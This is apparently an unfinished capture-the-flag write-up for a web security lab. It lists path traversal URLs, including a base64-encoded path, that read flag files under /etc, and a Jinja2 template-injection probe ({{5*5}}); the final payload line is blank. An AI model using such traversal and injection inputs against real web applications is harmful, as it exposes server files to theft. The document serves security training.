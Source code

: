 WIP

---
### Solutions:

- Task 0:
	URL: http://web0x07.hbtn/task0/download_file?filename=0-flag.txt&path=/etc

- Task 1:
	URL: http://web0x07.hbtn/task1/download_file?filename=1-flag.txt&path=..//etc

- Task 2:
	URL: http://web0x07.hbtn/task2/download_file?filename=&path=L2V0Yy8yLWZsYWcudHh0 = /etc/2-flag.txt

- Task 3:
	- Create a rapport at http://web0x07.hbtn/task3/create_rapport
		- Put {{5*5}} inside it to test Jinja2
		- Check output at http://web0x07.hbtn/task3/list_file
	- Create a Jinja2 payload to show file /etc/3-flag.txt
	- Payload: 
